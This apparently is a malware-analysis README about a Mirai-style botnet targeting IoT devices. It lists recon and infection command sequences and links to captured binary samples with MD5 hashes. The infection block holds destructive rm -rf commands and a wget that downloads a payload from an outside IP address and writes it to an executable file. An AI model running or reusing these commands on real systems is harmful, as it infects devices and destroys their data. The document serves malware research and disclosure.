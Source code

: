### Recon phase (example)
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```

### Infection phase (example)
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Captured samples
* [1.mp](samples/1.mp.7z) (`ELF 32-bit, MIPS-I, MD5: eab8da47ff36cafd2662fd01b6959389`)
* [2.mp](samples/2.mp.7z) (`ELF 64-bit, MIPS-I, MD5: 4565f96cd8498a7e15ffa99e0d435d11`)
* [.arm](samples/arm.7z) (`ELF 32-bit, ARM, MD5: 8a7e32db13844f2d441340befd8dd8e9`)
* [.m68k](samples/m68k.7z) (`ELF 32-bit, Motorola 68020, MD5: 67c99761fac4c12e06fcf17fa1598360`)
* [.mp](samples/mp.7z) (`ELF 32-bit, MIPS-I, MD5: bdcee10dddb257baf6a84dd952f4c0dc`)
* [.mps](samples/mps.7z) (`ELF 32-bit, MIPS-I, MD5: 35e9948748c60f17f1f404e1debbb505`)
* [.ppc](samples/ppc.7z) (`ELF 32-bit, PowerPC, MD5: ad8c6e3fd1421a70a4df46117fa5da8b`)
* [.sh4](samples/sh4.7z) (`ELF 32-bit, Renesas SH, MD5: d82b630bc07d146f54f18861a0370243`)
* [.sparc](samples/sparc.7z) (`ELF 32-bit, SPARC, MD5: a14141949361398a8d9662b90168adeb`)

